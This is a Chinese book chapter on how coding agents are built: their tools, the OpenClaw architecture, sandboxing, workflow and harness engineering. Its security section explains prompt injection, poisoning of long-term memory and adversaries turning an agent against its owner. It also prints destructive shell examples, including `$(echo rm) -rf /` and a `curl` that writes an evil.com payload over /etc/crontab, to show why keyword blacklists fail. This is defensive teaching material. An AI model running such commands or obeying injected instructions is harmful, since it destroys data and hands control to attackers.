

## Coding Agent

### Coding 是 Agent 的基础能力

**代码生成不是少数专门化 Agent 的专利，而是每个通用 Agent 都该具备的基础能力**。在当前 SOTA 模型的加持下，具备基本 coding 能力并不需要复杂的架构。

考虑一个典型任务：“整理仓库中所有遗留的 TODO 注释，按优先级分类并生成 issue”。完成这件事需要——浏览目录结构（ls/glob）、读取代码（read）、修改文件（edit/write）、运行命令（bash）、查找模式（grep/search）。这五类操作覆盖了几乎所有 Coding Agent 的核心动作，也正是下面要展开的七个工具的来由。严格说，这五类操作自然对应六个工具；第七个 Code Interpreter 对应的是“执行代码/计算”这类操作，在有的实现里干脆与 Bash 合并——七个工具是规范化的参考集，不必与五类操作严格一一对应。

一个基础的 Coding Agent 只需配备以下七个核心工具：

1. **Code Interpreter（代码解释器）**：提供隔离的沙盒环境（sandbox，即与主系统隔离的安全运行空间，代码在其中运行即使出错也不会影响宿主机），安全执行 Python 代码
2. **Bash Shell（命令行终端）**：在终端中执行命令，如运行测试用例、处理特殊格式文件
3. **读文件工具**：读取代码、配置、文档、日志等
4. **写文件工具**：创建新文件或完全重写现有文件
5. **编辑文件工具**：对现有文件进行局部修改，是代码维护和迭代的核心操作
6. **搜索文件名工具（Glob）**：通过模式匹配快速定位文件系统中的目标文件，例如用 `**/*.py` 找出项目中所有 Python 文件
7. **搜索文件内容工具（Grep）**：在文件内容中搜索特定的文本模式，例如搜索所有调用了某个函数的代码行

这七个工具构成了一个完整但极简的工具箱，几乎任何 Agent 系统都可以低成本地集成。它们在实现上均可通过第四章介绍的 MCP 协议暴露为标准化工具服务。注意，这个工具集是 Coding Agent 特有的基础配置，不同于第四章按调用方向和作用性质划分的五类通用工具分类（感知/执行/协作/事件触发/用户沟通）——七个核心工具主要覆盖了感知和执行两类。读者可能会问：那协作、事件触发、用户沟通这三类需求呢？——在 Coding Agent 中通常由 Agent 框架（而非工具层）处理，例如子 Agent 委托由框架的编排逻辑管理，而非通过专用的协作工具。

用一个最简单的任务来看这七个工具是怎么配合的。假设用户说“帮我把项目里所有 TODO 注释整理成一个清单”：

```
Agent（思考）：需要找到所有包含 TODO 的代码行。
Agent → Grep("TODO", glob="**/*.py")          # 搜索文件内容
工具返回：
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent（思考）：找到了 3 个 TODO，整理成清单写入文件。
Agent → Write("TODO_LIST.md", content="...")   # 写文件
工具返回：文件已创建

Agent：已整理完毕，共发现 3 个 TODO 项，清单保存在 TODO_LIST.md。
```

整个过程只用了 Grep（搜索内容）和 Write（写文件）两个工具。如果任务更复杂——比如“统计每个模块的 TODO 数量并画个柱状图”——Agent 还会用 Code Interpreter 执行 Python 代码来做统计和绘图。七个工具虽然简单，组合起来就能完成非常多样化的任务。

为什么每个通用 Agent 都应该具备 coding 能力？因为代码生成不只是写程序——它是一种通用的问题解决手段。遇到数学推理，可以写段代码交给求解器算出精确答案；需要固化业务规则，代码比自然语言描述精确得多；缺少某个工具，可以临时写一个；数据格式变了，动态生成解析逻辑。本章后续会逐一展开这些场景。一个具备基本 coding 能力的 Agent，即使工具箱中只有上述七个简单工具，也能在遇到新需求时动态扩展自己的能力边界。

### 案例：从 Manus 到 OpenClaw——通用 Agent 的 Coding 内核

以 Manus 为代表的通用 Agent 产品，将 Deep Research（深度调研）、Computer Use（电脑操控）和 Coding（代码生成）三大能力融合在一个系统中，凸显了一个已经被多类实践反复验证的洞察：**Coding Agent 加上文件系统，是开放任务型通用 Agent 最核心的技术基础**。开源项目 OpenClaw 也采用了类似思路，以开源实践展示了这一架构范式。

为什么 Coding Agent 是核心而非其他两种？因为几乎所有高效的内容生成最终都要落到代码上。PPT 本质上是 OOXML（Office Open XML，微软推出的办公文档开放标准）格式的代码，Word 文档和 PDF 报告可通过代码生成，数据分析和可视化由 Python 脚本完成，甚至 GUI 操作中成功的浏览器操作序列也可以被固化为可复用的 RPA（机器人流程自动化，Robotic Process Automation）代码（Computer Use 本身见第九章，操作序列的固化机制详见第八章）。Deep Research 的搜索和信息综合可通过代码驱动的 Web 请求和解析实现，Computer Use 虽然通用性更强，但成本、延迟和稳定性远不如直接通过代码或 API 来完成相同操作。代码生成是效率最高、成本最低、可复用性最强的能力基座。


用一个具体的执行流来理解这个架构。假设用户要求 “Help me analyze last quarter's sales data and create a summary report”：

1. **读记忆**：Agent 读取 `MEMORY.md`，发现用户偏好 PDF 格式的报告，数据源是 Google Sheets
2. **调工具**：通过网络搜索模块获取 Google Sheets API 的使用方法，通过代码执行下载数据
3. **写代码**：用 Python 生成数据分析脚本（pandas 聚合、matplotlib 可视化）
4. **生成产物**：将分析结果写入 `report.pdf`，图表写入 `charts/` 目录
5. **更新记忆**：在 `MEMORY.md` 中记录 “User's sales data is in Google Sheets, ID: xxx”，下次无需再问

整个过程中，文件系统是信息流转的枢纽——记忆从文件读取，产物写入文件，经验也保存为文件。

**文件系统作为 Agent 的中枢**。在 OpenClaw 的设计中，文件系统远不止是数据存储——它是 Agent 记忆、知识和能力的中枢。Agent 的长期记忆存储在 `MEMORY.md`（高层级事实和用户偏好）和按日期归档的 Markdown 日志中。选择 Markdown 而非向量数据库，这个决定看似反直觉，实际上极其有效：用户可以直接打开文件阅读和修改 Agent 的记忆（如果 Agent 记错了某件事，直接删除那一行即可），Markdown 天然保留时间顺序避免语义检索中的时间混淆，而且可通过 Git 进行版本控制和回滚。

更关键的是，Agent 拥有写文件的能力，这意味着它可以通过写文件来**自我进化**。当 Agent 首次执行某个任务并发现了之前不知道的关键信息（例如给某银行打电话时，发现对方要求提供开户行地址才能验证身份），它会将这条经验写入知识库，下次执行相同任务时自动加载。这种“越用越聪明”的机制，本质上就是第八章将深入讨论的外部化学习范式的具体实践。

**适用边界：哪些 Agent 以 Coding 为核心架构**。“Coding Agent 是通用 Agent 的核心”这一判断主要适用于**以开放任务为目标**的通用 Agent——深度调研、内容生成、数据处理这类任务边界不确定、产物形态多样的场景。在这些场景中，无法预先枚举所有需要的工具，代码生成作为元能力提供了动态扩展能力边界的最经济路径，因此它是架构的核心。而另一类 Agent——垂直领域的客服 Agent、语音助手——任务空间相对封闭，核心架构围绕固定的业务流程、领域工具和对话策略构建，代码在其中更多是工具箱里的一件工具而非架构中枢（本章后文的 τ-bench（一个模拟客服场景的基准测试，详见后文）例子中，代码扮演的正是政策校验工具的角色）。但即便在后者，coding 也是不可或缺的基础能力：精确计算、数据处理、规则校验都离不开它——这正与前一节“Coding 是 Agent 的基础能力”的论断呼应：是否以 Coding 为核心架构因场景而异，但具备 coding 能力是所有 Agent 的共同底线。

### Sessionless 设计

接下来讨论“随时可用”的交互方式和安全架构这两个设计，乍看与 Coding Agent 主题无关。然而它们直接决定了 Agent 如何管理代码执行环境和文件系统状态，而这正是 Coding Agent 的核心关切。（想先了解 Coding Agent 如何一步步工作的读者，可以先跳读后面的“Coding Agent 的整体流程”一节，再回到这里看交互与安全设计。）

OpenClaw 采用 **Sessionless**（无会话）设计：没有安装、登录、“打开 App”这些步骤，Agent 常驻在线，用户通过自己已经在用的消息平台随时发一条消息就能得到响应——这一交互形态及其背后的 Gateway 消息路由与事件驱动架构，已在第四章的用户沟通工具部分详细讨论，此处不再展开。值得强调的是这种形态成立的前提：大模型已经成熟到足以充当一种新的“智能基座”——类似传统操作系统屏蔽硬件、为上层应用提供统一抽象，大模型屏蔽了语言理解与思考规划的复杂性，为上层 Agent 提供统一的智能抽象。正是有了这层基座，“常驻 + 随时响应”的形态才得以低成本地工程化。

对 Coding Agent 而言，Sessionless 真正的工程难点在于**代码执行环境和文件系统状态如何跨消息存活**。用户的两条消息可能间隔几分钟，也可能间隔几天，而 Agent 的工作依赖大量隐式状态：沙盒里安装的依赖包、终端会话中的工作目录和环境变量、后台运行的开发服务器、写到一半的文件。OpenClaw 的做法是把状态分为两层管理。**文件系统状态天然持久**——工作区（workspace）目录挂载在沙盒之外的持久存储上，代码、数据、中间产物跨消息、跨沙盒重启都不会丢失，这也是“文件系统作为 Agent 中枢”的另一层含义。**进程状态则按需保活或重建**——沙盒及其中的终端会话在活跃期间保持运行，避免每条消息都冷启动、重新切换目录、重新激活虚拟环境；闲置超时后销毁以回收资源，销毁前把可序列化的环境状态（工作目录、环境变量、后台任务清单）记录到工作区文件中，下次唤醒时由 Agent 按记录重建。本章后文“命令执行环境的状态持久化”讨论的持久终端会话，正是这套机制在单次任务内的对应物；Sessionless 把同一个问题拉长到跨消息、跨天的时间尺度上。

Sessionless 也不是免维护——它意味着每次用户消息都需要**重新加载完整的轨迹和工作状态**，因此对状态序列化效率、轨迹压缩策略有更高要求；轨迹压缩本身的设计原则已在第二章“上下文压缩策略”中讨论，本章侧重 Sessionless 架构下的工程取舍。

### Coding Agent 的安全

本节把 Coding Agent 的安全防线收拢为一条完整的叙事线：先勾勒**威胁模型**——哪些风险最致命；再讨论**隔离兜底**——沙盒的网络出口、文件系统与资源限额；然后是**执行期防御**——命令的语义解析，以及让安全检查“隐形”的推测性执行；最后落到**信任与忠诚**——多方委托下 Agent 为谁效忠，以及当 AI 写的代码本身不可信时，如何把信任边界下移到数据层。其中威胁模型、忠诚度与信任边界的讨论对所有 Agent 通用，沙盒与命令解析是 Coding Agent 特有的增量。

这种“主权智能体”范式也带来了严峻的安全挑战。Coding Agent 拥有读写文件、执行命令、访问网络的权限，这意味着一旦被注入恶意指令就可能造成不可逆的损失。开发者、独立研究者 Simon Willison 将这种风险概括为著名的“致命三要素”——三个要素齐备，就构成了一条完整的攻击闭环，系统即属高危：

1. **访问私有数据**——Agent 能读取用户文件和密码管理器
2. **暴露于不受信任内容**——处理的邮件和网页可能包含恶意载荷
3. **具备外部通信能力**——能发送邮件和执行命令

攻击路径由此闭合：恶意指令藏在不受信任的内容中进入 Agent，驱使它读取私有数据，再经对外通道传出。注意，三要素齐备本身就已足够危险，不需要任何额外条件。在此基础上，笔者补充第四个维度——**持久记忆**。它不是并列的第四个必要条件，而是攻击的放大器：攻击者可将看似无害的偏见或恶意指令写入 Agent 的长期记忆，跨会话潜伏，在合适的时机再触发，把一次性攻击升级为长期的潜伏与放大。

这四点可以概括为四类边界：数据边界、输入信任边界、输出影响边界、跨会话边界。OpenClaw 这样的全权限本地 Agent 恰恰四者兼备，安全防护因此成为此类 Agent 必须正视的核心挑战。

这也解释了为什么闭源的商业 Agent（如 Claude Cowork（Anthropic 面向知识工作的通用 Agent，复用 Claude Code 的 agentic 架构，能读写本地文件、跨多个办公应用完成多步任务））选择了保守的权限策略——不是技术做不到，而是安全风险太高。面对提示注入威胁，单靠输入过滤基本挡不住。重点不是识别所有攻击，而是让 Agent 即使被注入，也没有机会把危险动作真正执行出去。防御体系在前两章已经分层建立：**上下文层防御**——外部内容来源标注、结构化角色隔离、输入清洗——见第二章提示注入一节；**执行层防御**——Sidecar 独立审查、Human in the loop（人在回路）、最小权限与权限分离——见第四章。同一上下文中的 Agent 很难判断自己是否已被注入，因此关键操作必须由上下文之外的机制复核，这一原则贯穿两章。本节只补充 Coding Agent 特有的三点增量：

- **命令语义解析**——Shell 命令的组合爆炸使关键字黑名单形同虚设，必须在语义层理解命令的真实效果（本节后文将展开）；
- **沙盒隔离与网络出口控制**——代码执行是 Coding Agent 独有的攻击面，隔离级别与出口策略的工程选型见本节后文；
- **持久记忆的跨会话防线**——这是本章在致命三要素之外特别强调的扩展项：写入长期记忆的内容需经过与外部内容同等的信任审查，避免恶意指令潜伏在 `MEMORY.md` 中长期生效。

这三点增量分别落在验证、执行和数据三个层面，与前两章的防御体系互为补充。这些策略不能完全消除风险，但能缩小 Agent 的攻击面。

**隔离兜底：代码执行沙盒的工程选型。** 沙盒不是一个开关，而是一系列工程决策。第四章已经回答了“为什么要隔离”、隔离机制的分级原理（进程级隔离、容器、microVM 三档谱系），以及“个人本机用进程级、单租户云端用容器、多租户或陌生代码用 microVM/gVisor”的选型法则；这里不再重复这一谱系，只补 Coding Agent 落地时绕不开、而第四章未展开的四项增量：网络出口怎么管、文件系统挂多少、资源怎么限、持久会话与隔离如何调和。

**网络出口控制**。这是最容易被忽视、却最关键的一项：默认断网，按需通过白名单代理放行有限目的地（包管理源、文档站点、任务明确需要的 API）。回看致命三要素的第 3 条——“具备外部通信能力”——网络出口控制正是它的执行面防御：即使提示注入成功、恶意代码在沙盒内读到了敏感数据，没有出口就传不出去。相比试图识别每一次注入，掐断数据外传通道是确定性得多的防线。

**文件系统隔离范围**。源码目录以只读方式挂载（Agent 通过编辑工具修改代码，生成的补丁经审查后落盘，或将副本挂入可写工作区），单独的可写工作区目录承载生成物和中间文件；凭证类文件（`~/.ssh`、密钥、token）根本不挂载进沙盒——不可见的数据无法泄露，这对应致命三要素的第 1 条。

**资源限额与超时**。CPU、内存、磁盘配额加挂钟超时，防御死循环、fork 炸弹（疯狂自我复制进程直到拖垮系统）和无限写盘。一个实践细节：超时和超限应向 Agent 返回结构化错误（“执行超过 120 秒被终止，最后输出如下……”）而非静默杀死进程，让 Agent 有机会在下一轮修正策略。

**持久会话与隔离的调和**。本章后文“命令执行环境的状态持久化”主张维护长期存活的终端会话，而隔离原则主张环境用完即弃——两者存在张力。调和的思路是：**会话保活在沙盒内部**，终端会话的生命周期严格不超过沙盒的生命周期，会话状态从不逃逸到宿主机；对需要跨长时间间隔恢复的场景（如前文 Sessionless 架构），依靠沙盒快照或“工作区文件持久化 + 环境按脚本重建”来恢复状态，而不是无限延长沙盒的存活时间。换句话说，持久化的是**可审计的状态描述**（文件、脚本、清单），而不是不透明的运行中进程。

**安全：语义解析而非关键字黑名单**。第一章提到验证层应采用“基于理解而非匹配”的安全机制，Shell 命令安全校验是这一原则最具挑战性的应用场景。简单的关键字黑名单无法应对 Shell 的组合爆炸——命令可以通过管道、子 shell、变量展开等方式绕过任何静态规则（例如 `rm` 被禁了，攻击者可以用 `$(echo rm) -rf /` 绕过）。生产级 Harness 采用语义解析：理解每个命令的参数类型和消费规则（哪些标志位会消费下一个参数），识别出“某个看似无害的标志位实际上会消费下一个参数从而隐藏危险载荷”这类攻击模式。例如，`find / -name '*.log' -exec rm {} \;` 通过合法的 `find` 命令参数嵌入了 `rm` 删除操作；又如 `curl -o /etc/crontab http://evil.com/payload`，看似下载文件实则覆盖系统定时任务。语义解析能识别出这些嵌套的危险操作，而简单的命令黑名单无法捕获。这种基于理解而非匹配的安全机制，是“约束”功能的高阶实现。

**推测性执行：让安全检查“隐形”**。这正是第四章 Sidecar 门控机制在用户体验层的效果——第四章解释了为什么关键操作要交给独立于主上下文的 Sidecar 复核，本节关心的是如何让这层复核不被用户感知为等待。做法是把“展示”和“放行”两件事拆开并行：当 Agent 准备执行一个工具调用时，系统一边在界面上先行显示进度提示（比如“正在读取文件 `src/main.py`...”），一边同时在后台跑安全检查。这里要澄清一个常被套用的类比：它并不同于 CPU 的推测执行——CPU 猜错了要丢弃已算的结果、回滚状态，而这里先行的只是一个**无副作用的 UI 提示**，它不改变任何真实状态，检查若未通过也无需回滚，只是把提示替换为“等待确认”。大多数情况下，安全检查在用户注意到之前就已经完成，用户完全感受不到额外延迟；只有在无法快速判定时，才会真正暂停下来等待确认。这是 Harness 设计的最高境界：安全性不以牺牲用户体验为代价。

**Agent 为谁效忠：多方委托下的忠诚度。**

前面的安全机制防的是“命令被做坏”，还有一类更微妙的安全问题——**委托方忠诚**（principal loyalty）：**Agent 到底站在谁那一边**。模型在训练时被灌输了一条朴素的默认原则——“谁在跟我说话，我就尽力帮谁”；但真实的 Agent 常处在**多方委托**的处境里：它代表主人行事，打交道的却是利益相反的第三方——一个替你砍价的 Agent，对面坐着的不是“需要被帮助的用户”，而是**交涉对手**。此时“谁说话帮谁”就是危险的默认设置：对手只要开口，就可能把 Agent 策反。

把前沿模型放进这种处境实测，会看到一条清晰的**忠诚度光谱**，而且两端都会翻车[^ch5-1]：一端是**太老实**，把主人的私密信息（比如“我方底价是 12000”）直接抖给对手，被反复施压几轮就缴械让步；另一端是**太多疑**，连主人正当的请求也一概拒绝，反而没法完成任务。真正难的是，这两种失败是一根跷跷板——把泄密堵死往往就滑向过度拒绝，很难两全。

这对 Coding Agent 尤其贴切：仓库里读到的不可信内容、某个工具返回的输出、第三方 MCP 服务器发来的指令，都是试图让 Agent 倒戈的“对手”——**提示注入本质上就是一次策反**（第二、四章）。因此 Harness 层要把“忠诚对象”显式钉死：主人的指令优先级最高，一切来自外部交互方的内容都默认降格为“可参考、但不具备指令效力”的数据。落到系统提示上，一套行之有效的**忠诚度守则**是：保护主人的私密信息乃至它的“存在性”；拒绝时不逐条念出拒绝清单（那本身就在泄露）；私下的底线不等于对外的立场；只执行主人明确、具体的指令；顶住重复施压。本质上，这是在用 Harness 为模型补上一条它默认没有的立场：**对主人绝对忠诚，对外部交互方保持审慎**。

[^ch5-1]: 这条忠诚度光谱及守则的完整评测见 Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026.

**当 AI 写的代码本身不可信：把信任边界下移。**

上一段的忠诚度守则让 Agent **更可能**守规矩，但对高危的数据操作，“更可能”还不够——需要把约束从“寄望 Agent 自觉”下移到数据层强制执行。更彻底的立场是[^ch5-2]：**干脆把应用层当作不可信的，把数据不变量的强制执行下沉到它下面**。过去三十年，软件的完整性边界一直在**应用层**——由 handler 代码决定谁能操作、什么值合法，数据库则无条件信任这些代码；而 LLM 生成的 handler 经常漏掉权限与完整性检查，自主 Agent 又会直接对生产数据下手，这个前提被打破了。新的方案（可称之为权限内嵌的数据对象，Permission-Embedded Data Objects）让每个数据实体在一份**人类审查过的 schema** 里自带声明式的权限规则、校验器和后果声明，由一条运行时流水线在**每一次写入**时强制执行。关键原语是挂在每个操作上的**访问上下文（access context）**：被重新生成的 handler 以它所服务的用户的权限运行，自主 Agent 则以它自己受限的身份（scoped principal）运行——与其只寄望 Agent 忠诚，不如从架构上把它降格为权限受限的主体，让它即便被策反也越不过雷池。

在同一批 prompt 上对照，这套机制做到**没有任何一次写入违反声明的不变量**；而裸 SQL、LLM 自己写的检查、宪法式提示、动作边界拦截器都会漏过数次到数十次违规。它不是“更可能对”，而是“不可能错”，代价只是每次写入多花约 2 毫秒。当然，保证是有条件的：schema 要真的把想要的不变量写全，部署上必须堵死不可信层绕过存储、直连数据库的所有路径。对 Coding Agent 而言，这给出一条重要的架构原则：**当写代码的和跑代码的都可能不可信时，真正可靠的约束不能待在被生成的代码里，而要待在它下面那层人类审查过的地基里**——这也是第一章“约束优先于指导”原则在数据层的终极形态。

[^ch5-2]: 这一“把信任边界下移到应用层之下”的设计与评测（含各方案违规次数的完整对照）见 Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026（待发表）.

### Coding Agent 的整体流程


下面描述的是一套**推荐的工程化流程**，它把软件工程的最佳实践投射到 Agent 身上，勾勒的是理想形态。现实中的 Coding Agent（如 Claude Code、OpenClaw）更多按反应式的迭代循环工作，会**按需裁剪**这套流程——简单任务会跳过设计文档、不会每一步都阻塞等待用户批准，只有当任务复杂、影响面大时才会完整走完各阶段。

**项目文档化。**

Coding Agent 的工作始于对项目的系统性理解。当 Agent 首次接触一个代码仓库时，首要任务不是马上动手改代码，而是先建立对整个项目的认知框架——就像新入职的工程师，第一天不会直接提交代码，而是先熟悉项目结构。Agent 会首先检查项目是否存在文档——README、架构设计文档、开发者指南。

如果关键文档缺失，Agent 不应在盲目状态下开始工作，而应主动承担文档化的责任——通过系统性地阅读代码库，识别主要模块、核心抽象、组件间依赖关系，生成包含架构概览、目录结构、测试运行指南的初始文档。这份文档既为 Agent 后续工作提供蓝图，也为其他开发者提供了入口点。这体现了一个关键原则：知识的显式化是高效协作的前提。

项目文档化如今有了一种 Agent 专用的形态：**项目指令文件**。CLAUDE.md、AGENTS.md、.cursorrules 等文件已成为业界事实标准——它们在每次会话开始时被自动注入上下文，相当于项目级的系统提示词。与面向人类读者的 README 不同，指令文件承载的是面向 Agent 的行为约定：构建与测试命令（“用 `pnpm test` 而不是 `npm test`”）、代码风格（“禁用 any 类型”）、明确的禁区（“不要改动 `migrations/` 目录”）。这与 OpenClaw 的 `SOUL.md`（定义 Agent 的身份与行为规则）、`MEMORY.md`（沉淀跨会话经验）是同一思路在不同层面的应用：SOUL.md 约定“Agent 是谁”，项目指令文件约定“在这个项目里该怎么干活”。从第二章上下文工程的角度看，指令文件还是最经济的稳定前缀——内容不随任务变化，天然对 KV Cache 友好；它也是“知识必须存在于代码库本身”原则最直接的落地。

知识显式化原则还有一个有趣的推论：**对远程工作友好的团队往往也对 AI Agent 友好**。远程团队被迫依赖异步沟通与文档化——决策记录在文档里，上下文写在 issue 和 PR 描述里，部落知识沉淀在开发者指南里，而不是靠工位旁的口头传递和会议室白板。这恰好就是 Agent 能消费的知识形态：Agent 读不到口头约定，但读得到设计文档。反过来，一个高度依赖“问一下坐旁边的同事”的团队，无论对新入职的远程员工还是对 Agent，上手成本都同样高。评估一个团队的“AI-ready”程度，一个简单的代理指标是：一个远程新人只靠代码仓库和文档，能不能独立开展工作。

**任务理解与需求澄清。**

对于边界清晰、影响范围有限的简单需求——例如修正一个已知的 bug、调整某个函数的参数——Agent 可直接进入实现阶段。然而，软件开发中的大多数任务并非如此简单。

对于复杂需求，Agent 必须更加谨慎和有条理。复杂性可能源于多个维度：需求本身的模糊性（用户知道想要什么但无法精确表达）、实现路径的多样性（多种技术方案可选，各有权衡）、或影响范围的广泛性（需修改多个模块，可能破坏现有功能）。Agent 应通过探索性调研来澄清边界，必要时主动与用户对话。例如，当用户要求“优化系统性能”时，Agent 需要先搞清楚：优化的具体目标是什么（降低响应时间、减少内存占用还是提高吞吐量）、可接受的权衡是什么（是否允许增加代码复杂度）、以及当前瓶颈在哪里。在需求模糊的状态下就开始编码，往往导致大量返工。

**编写设计文档。**

设计文档是将抽象需求转化为具体实现计划的桥梁，应回答核心问题：修改哪些模块及原因，采用什么方案及其相对优势，需引入哪些新依赖，预期对系统的影响。编写设计文档本身就是深度思考——它迫使 Agent 在投入大量编码前先在概念层面验证方案可行性。更重要的是，设计文档为人类提供了高效的介入点——审查简洁的设计文档比审查数百行代码容易得多。Agent 完成设计文档后应提交给用户审查，等待批准后再继续。

**代码实现与测试。**

获得设计批准后，Agent 遵循项目代码规范进行实现，复用现有抽象和工具，必要时进行适度重构以保持代码库健康。

实现完成后立即进入测试驱动的质量保障环节——为新增或修改的功能编写测试用例，覆盖正常路径、边界条件和异常情况。编写完测试后执行测试套件。如果测试失败，Agent 不应简单地向用户报告失败，而应分析原因、定位问题、修改代码直到所有测试通过。这个 “测试-修复” 循环可能需要多次迭代，正是这种自我纠错能力将 Coding Agent 从代码生成器提升为可靠的工程助手。反过来说，Coding Agent 最常见的偷懒方式，就是跳过这一环节——写完代码不跑测试就报告“任务完成”。把“测试通过”而非“代码写完”定义为完成标准，正是 Loop 工程“由验证判定何时可以停”原则在编码场景的落地（第十章将系统讨论这类“过早终止”问题）。

即使所有测试通过，Agent 的工作也还没结束。接下来是代码审查阶段：Agent 对自己生成的代码进行批判性审视——可读性如何，是否有足够注释；是否存在潜在的性能问题或安全漏洞；是否遵循项目的代码风格和最佳实践。这个自我审查可通过阅读代码、运行 lint 工具或调用专门的代码审查子 Agent（Sub-Agent）来实现。如果审查发现问题，应回到修改阶段完善，而不是将有缺陷的代码交付给用户。

**文档同步与交付。**

如果代码修改涉及架构层面的变化——例如引入新模块、改变模块间依赖关系、修改核心抽象语义——Agent 需相应更新架构文档。过时的文档比没有文档更糟糕，因为它会误导未来的开发者。通过在每次重要修改后自动更新文档，Agent 帮助维护了项目知识库的完整性和时效性。

这套流程体现了软件工程的核心原则：计划先于行动，验证贯穿始终，文档与代码共同演化。

### Harness 工程在 Coding Agent 中的实践

第一章引入了 Harness 工程的概念和 **Agent = Model + Harness** 的公式。这里的 Harness 包含了核心公式中的上下文和工具，以及约束、验证和纠正机制——五者共同构成了第一章定义的 Harness。Coding Agent 大概是 Harness 工程收益最大的领域——代码编写是所有 Agent 任务中**可验证性最高**的一类，约束、验证和纠正都有现成的基础设施可以依托。本节聚焦于 Coding Agent 场景下的具体实践。

能不能稳定运行，往往不取决于用了多强的模型，而取决于围绕 Agent 搭建的基础设施有多扎实。第一章将 Harness 分为两个层面——**上下文与工具**（让 Agent 能做事）和**约束、验证与纠正**（让 Agent 不做错事）。在 Coding Agent 这个场景下，它们落地为具体的工程组件：

- **验收基线**：什么算做完了——测试套件、CI 管道（持续集成流水线，代码提交后自动运行的一系列检查）、代码审查标准
- **执行边界**：Agent 能碰什么不能碰什么——模块边界、依赖规则、权限控制
- **反馈信号**：自动化的对错判断——Linter（代码规范检查工具，能自动发现格式错误和潜在问题）输出、测试结果、类型检查错误
- **回退手段**：出了问题怎么恢复——Git 版本控制、沙盒隔离、快照回滚

**Coding Agent 为什么特别适合 Harness 工程。**

可以用任务清晰度和验证自动化程度两个维度，将任务分成四种状态。目标明确且结果可自动验证，是最适合 Agent 发挥的区域；目标清楚但验收还得靠人盯，吞吐量的天花板就是人的审查速度；有自动化反馈但目标模糊，系统会高效地往错误方向跑；两者都缺，Agent 基本派不上用场。表5-1 展示了这四种状态，Harness 的目标就是把尽可能多的任务推向“目标明确 + 验证自动化”这个象限。

表5-1 任务清晰度与验证自动化程度的四象限

| | 结果可自动验证 | 结果需人工验证 |
|----------|----------------------------------------------|---------------------------------------|
| **目标明确** | 最佳区域：修复有测试用例的 bug | 吞吐量受限：代码重构需人工审查 |
| **目标模糊** | 高效地跑偏：用 linter 优化“代码质量” | 难以启动：“让 UI 更好看” |

代码编写天然处于这个象限的核心——测试套件提供明确的验收标准，Linter 和类型检查器提供即时的自动化验证，Git 提供完美的版本控制和回退能力。这就解释了为什么 Coding Agent 是当前所有 Agent 类型中成熟度最高的：不是因为代码生成模型特别强，而是因为软件工程几十年积累的基础设施天然构成了一套强大的 Harness。

**业界实践。**

三个案例的 Harness 实践印证了上述原则：

- **大规模代码迁移案例**（来自一家大型科技公司公开分享的大规模代码迁移实践）：关键不在模型强，而在 Harness 做对了三件事——知识必须存在于代码库本身（Agent 看不到的等于不存在）、约束编码进 Linter 和 CI 而非写在文档里、验证和纠正全链路自动化。
- **LangChain**：仅通过优化 Harness（系统提示词、工具中间件、自验证循环）就显著提升了基准任务表现。尤其值得一提的是“用 Agent 分析失败轨迹来改进 Harness”的方法论，使 Harness 工程从人工经验驱动转向数据驱动。
- **Anthropic**：将长任务拆分为两个角色——初始化 Agent 负责把大任务分解为任务清单，执行 Agent 负责逐步推进并把中间成果（如已完成的代码文件、更新后的任务清单等）留给下一轮继续使用。这种分工解决了长时运行 Agent“一次想做太多”或“过早声称完成”的问题。

**从 Coding Agent 到通用 Harness 设计原则。**

Coding Agent 的 Harness 实践为所有 Agent 系统提供了可迁移的设计原则：

1. **约束优先于指导**：能用代码强制的规则就不要用文档建议。Linter 规则、类型约束、CI 检查的价值远超系统提示词中“请遵循...”式的指导——前者是“做不了”，后者只是“建议别做”。
2. **验证要自动化**：人工审查是不可扩展的瓶颈。测试套件、代码质量检查、行为监控——这些基础设施的投入回报远高于增加人力。
3. **反馈越快越好，越结构化越好**：错误信息越详细、越接近错误发生的时刻，Agent 的纠正效率越高。第二章的 Agent 状态栏技术（详细错误信息、工具调用计数器）正是这一原则的体现。
4. **回退要可靠**：Agent 在安全网内操作才能大胆试错。Git 分支、沙盒环境、快照机制确保任何错误都可逆。

